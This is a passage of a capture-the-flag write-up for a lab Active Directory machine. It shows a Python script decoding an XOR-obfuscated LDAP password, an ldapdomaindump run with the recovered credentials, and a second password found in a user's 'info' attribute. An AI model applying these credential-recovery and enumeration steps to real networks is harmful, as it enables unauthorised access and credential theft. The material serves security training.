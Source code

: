 I wrote a python script to decode the password, and the password is `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`.

```python
import base64

enc_password = base64.b64decode("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E")
key = "armando".encode("ascii")

for i in range(len(enc_password)):
	print(chr((enc_password[i] ^ key[i % len(key)]) ^ 0xdf ), end="")

print()
```

---

## LDAP Enumeration

I started enumrating user information in the Active Directory using the credentials I found previously using `ldapdomaindump` tool to dump all user details:

```shell
└─$ ldapdomaindump dc.support.htb -u 'support\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished

└─$ ls                                                                                       
domain_computers_by_os.html  domain_computers.json  domain_groups.json  domain_policy.json  domain_trusts.json          domain_users.html
domain_computers.grep        domain_groups.grep     domain_policy.grep  domain_trusts.grep  domain_users_by_group.html  domain_users.json
domain_computers.html        domain_groups.html     domain_policy.html  domain_trusts.html  domain_users.grep

````

Then I started cruising around in the `.html` files to see which user can I target to gain access to the machine. A few minutes later I foudnd that the `support` user has the most permissions and I probably should target that user.

After several hours of poking around and cruising `ldapdomaindump`'s output, I finally found something interesting in `domain_users.json` file, something weird that almost looks like a password to me, compared to the previous password I cracked, looks similar in its form:

```json
	"distinguishedName": [
            "CN=support,CN=Users,DC=support,DC=htb"
        ],
        "info": [
            "Ironside47pleasure40Watchful"
        ],
        "instanceType": [
            4
        ],
```
